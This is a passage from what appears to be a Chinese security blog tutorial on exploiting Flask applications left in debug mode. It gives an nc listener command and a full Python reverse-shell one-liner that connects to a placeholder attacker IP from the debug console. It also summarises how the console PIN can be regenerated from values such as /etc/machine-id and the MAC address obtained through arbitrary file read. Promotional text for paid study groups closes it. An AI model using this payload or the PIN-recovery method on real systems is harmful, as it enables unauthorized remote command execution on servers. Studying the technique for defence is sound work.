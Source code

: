 步骤如下:

1、 在攻击机 (A) 上开启一个 nc 监听端口。

Nc -lvvp 8888

2、 在 debug 的 console 页面上输入 python 反弹 shell 的代码进行反弹到攻击机上。

代码如下:

```
import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("攻击机IP",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);
```

0x03 总结

1、正常 flask 开启了 debug 模式，如果没有开启 pin 码进行校验，可直接获取 python 交互式 shell 进行命令执行

2、 flask 开启了 debug 模式，但是开启了 pin 码校验，如果对应的 flask 应用没有任意文件读取的漏洞是无法获取到生成 pin 所需要的 6 个参数值的，无法获取交互式 python shell。

3、flask 开启了 debug 模式，且开启了 pin 码校验，且对应的应用存在任意文件读取的漏洞，可以通过文件读取获取到 username、modname、getattr(app, '\_\_name\_\_', getattr(app.\_\_class\_\_, '\_\_name\_\_'))、getattr(mod, '\_\_file\_\_', None)、str(uuid.getnode()),  /sys/class/net/ens33/address、get\_machine\_id(), /etc/machine-id，从而通过脚本生成 pin 码，然后获取 python 交互式 shell，进行命令执行.

0x04 参考链接

https://zhuanlan.zhihu.com/p/32138231

https://xz.aliyun.com/t/2553#toc-2

https://www.dazhuanlan.com/2019/12/05/5de8c90ee03dd/?\_\_cf\_chl\_jschl\_tk\_\_=6297c338db1048cd0af15fe375956340bbce6156-1601270282-0-AYlx\_7583zw\_1g7Q7rHBo6L-5t4evM5Lw4yjLav\_1CEFCn2PNq0qWkKcsYK95Fw5Lsvt88XATE26KexsrJSlK2wtY9TIZuC7abxIwJwGkWA-rxP2nUqdchaz6qWeVQ\_ucUTxsM0ft5q69yMs6\_c13NWXUy5Jb7DyUQ-CSKNuICy02DrQsVA46eUtnxT0XWHA0twB2tYuqlf1i-ZNGgzgatTZvV69ltExMrWUWx8IGM7jmF6I2FihCIJ1-tsebIL0w6xG\_jZFNeS-UJVk3C8iozHdWkde0sARVUJJ4SNlUE63B5yxxDwpb6Ukl\_OAseGo9w

  

  

  

  

**END**

* * *

  

**免费星球：**要求每个人在两周内输出一篇文章发到星球里面，文章为星球成员自己整理的内容，如超过两周没有文章输出的将被拉黑一个月，超过 3 次将被踢出星球，永久禁止加入！

**收费星球：**进入的星球成员可以在里面学习一年，包括贝塔安全实验室整理好的学习资料，可让星球管理及合伙人邀请加入免费星球，可以不用发文章，加入的免费星球免踢一年！

| 

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9ql3aeHJgZ66ibibFw4OibjvDos7YuK3k1fbic4pJsibwhVkBicdjmQbricFx6gKwEoGqLQuIaVeMjoBP2Yibg/640?wx_fmt=png)

 | 

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9ql3aeHJgZ66ibibFw4OibjvDossWnjm1H72RRcpfIrib6YpWsQ6v6j63sC7ClnZibCgEWPISIpoK1Afm2g/640?wx_fmt=png)

 |![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qnvGHiapxEr9yj0I36sAgvUErOgpelOJrS93wLRGQXJCORkfRc8EEm4C0dq9SsaGicy9eYMR7xEwMGg/640?wx_fmt=png)